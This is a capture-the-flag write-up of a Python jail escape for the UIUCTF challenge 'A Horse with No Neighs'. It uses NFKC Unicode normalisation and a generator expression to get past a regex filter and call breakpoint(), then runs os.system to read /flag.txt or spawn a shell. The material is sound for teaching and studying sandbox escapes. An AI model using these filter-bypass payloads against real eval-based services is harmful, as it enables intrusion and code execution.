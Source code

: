 # A Horse with No Neighs

Categories: Jail/Python

Description:
> A Horse with No Neighs
>
> - 332 points
>
> "horse wearing an eyepatch "
>
>
> Can you beat a dead horse? This challenge fixes an unintended bug in [A Horse with No Names](../a-horse-with-no-names).
>
> `nc neigh.chal.uiuc.tf 1337`
> [Dockerfile](resources/Dockerfile) [desert.py](resources/desert.py)

**Tags:** python, jail

## Takeaways

- Using `breakpoint()`
- Using `eval(input())`
- Using `import os; os.system("sh")`
- Unicode characters in python that translate to literals.
  - e.g. The unicode character "𝖖" (U+0x1d596) is mapped to the ascii character "q"

## Solution

This challenge is a fix of unintended solutions of the previous challenge, [A Horse with No Names](../a-horse-with-no-names). Here is the current challenge's source code:

```python
#!/usr/bin/python3
import re
import random
horse = input("Begin your journey: ")
if re.search(r"[a-zA-Z]{4}", horse):
    print("It has begun raining, so you return home.")
elif len(set(re.findall(r"[\W]", horse))) > 4:
    print(set(re.findall(r"[\W]", horse)))
    print("A dead horse cannot bear the weight of all those special characters. You return home.")
else:
    discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
    random.shuffle(discovery)
    print("You make it through the journey, but are severely dehydrated. This is all you can remember:", discovery)
```

We will not go into details here, as these have already been covered by the [previous challenge](../a-horse-with-no-names). However, we will go over a diff of the two challenges:

```diff
diff --git a/a-horse-with-no-names/src/desert.py b/a-horse-with-no-neighs/src/desert.py
index 36d0560..8d0e911 100644
--- a/a-horse-with-no-names/src/desert.py
+++ b/a-horse-with-no-neighs/src/desert.py
@@ -2,11 +2,11 @@
 import re
 import random
 horse = input("Begin your journey: ")
-if re.match(r"[a-zA-Z]{4}", horse):
+if re.search(r"[a-zA-Z]{4}", horse):
     print("It has begun raining, so you return home.")
 elif len(set(re.findall(r"[\W]", horse))) > 4:
     print(set(re.findall(r"[\W]", horse)))
-    print("A single horse cannot bear the weight of all those special characters. You return home.")
+    print("A dead horse cannot bear the weight of all those special characters. You return home.")
 else:
     discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
     random.shuffle(discovery)```
```

As we can see, the only essential change is that `match` was changed to `search`. Here is the difference according to the [documentation](https://docs.python.org/3/library/re.html)

> `re.match`: If zero or more characters at the **beginning** of string match the regular expression pattern, return a corresponding match object.
>
> `re.search`: Scan through string looking for the first location where the regular expression pattern produces a match, and return a corresponding match object.

So clearly our previous payload will not work as it used name such as `open`, `hash`, `divmod`, etc. We also can no longer use the `lambda` keyword. We have to find a different approach.

### A fresh approach

Let's try with unicode characters. From the [documentation](https://docs.python.org/3/reference/lexical_analysis.html#identifiers), we know that:

> Python 3.0 introduces additional characters from outside the ASCII range (see PEP 3131). For these characters, the classification uses the version of the Unicode Character Database as included in the [unicodedata](https://docs.python.org/3/library/unicodedata.html#module-unicodedata) module.
>
> ...
>
> **All identifiers are converted into the normal form NFKC while parsing; comparison of identifiers is based on NFKC.**

This is interesting. What if our input was "ev𝕒l(1)" instead of "eval(1)". Would this trigger the `re.match`? The answer is no.

`re.match` would be invoked on our input string "ev𝕒l(1)", which does not contain 4 consecutive alphabetical characters. The "𝕒" is U+0x1D552, which is not matched by the regex `[a-zA-Z]{4}` *(Note however that the regex `\w{4}` would match the whole "ev𝕒l" string)*. However, when our input is placed inside `compile` to generate the code object, the identifier "ev𝕒l" is converted to its normal NFKC form according to the documentation. And the normal value of "𝕒" is "a"! We can write a simple python script that finds all these mappings:

```python
import sys
import string
import unicodedata
mappings = { }
for i in range(sys.maxunicode+1):
    c = chr(i)
    normalized_c = unicodedata.normalize('NFKC', c)
    if normalized_c != c:
        print(f"input {c} (U+{hex(i)}) is normalized to {normalized_c}")
        if normalized_c in string.printable:
            mappings.setdefault(normalized_c, []).append(c)
for normalized_c in sorted(mappings.keys()):
    unic_list = mappings[normalized_c]
    print(f"literal '{normalized_c}' can be represented by: {unic_list}")
```

and here the result:

![mapping.png](resources/mapping.png)

So, we can use that to bypass the `match` restriction, great! There is one small thing though. We cannot use `lambda` from our previous exploit. This is because `lambda` is a keyword and must appear as ASCII, thus not passing the `match` check.

The core idea behind the `lambda` in the previous exploit, was to increase nesting in order to bypass the `.replace(co_names=()` restriction. We can increase nesting by using list comprehensions instead:

```python
horse='(eval for _ in (1,))'
code = compile(horse, "<horse>", "eval")
print(code.co_names)

# Out[15]: ()
```

Here, inside `horse`, we are creating a generator expression (`genexpr` object), `eval` is in a nested scope (in comparison to `1`, which is in the global scope), and `(1,)` is a tuple of one element.

### Putting the exploit together

So, let's combine all the pieces to generate our input exploit:

```python
(bre𝐚kpo𝐢nt() for _ in (1,)) # "a" and "i" are in weird unicode format
```

In the source code, the result from `eval` is passed to a `list()` constructor. So, our generator object will become a concrete list and its elements will be evaluated.

Thus, when we enter the above payload, we get into the the Pdb debugger and can dump the flag:

```bash
(Pdb) import os; os.system('cat /flag.txt')
```

`uiuctf{my_challenges_always_have_unintended_solutions_and_i_am_less_okay_with_that}`

*(P.S.: Instead of `breakpoint`, we could also have used:*

- `eval(input())`
- `exec('import os; os.system("sh")')`

*with appropriate encoding of course)*


